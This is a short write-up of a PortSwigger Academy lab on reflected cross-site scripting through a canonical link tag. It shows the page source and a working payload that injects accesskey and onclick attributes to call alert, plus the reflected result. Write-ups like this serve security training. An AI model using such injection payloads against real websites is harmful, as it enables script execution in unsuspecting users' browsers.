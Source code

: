 # Reflected XSS in canonical link tag

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag), you'll learn: Reflected XSS in canonical link tag! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

Please note that the intended solution to this lab is only possible in Chrome.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231083133.png)

**View source page:**
```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/'/>
    <title>Reflected XSS in canonical link tag</title>
</head>
```

In here, we can see that there is a `<link>` tag is using **canonical** link tag.

**To exploit it, we can try to inject `accesskey` attribute with an `onclick` event:**
```html
/?'accesskey='x'onclick='alert(document.domain)
```

**Result:**
```html
<link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/?'accesskey='x'onclick='alert(document.domain)'/>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231084750.png)

Nice!

# What we've learned:

1. Reflected XSS in canonical link tag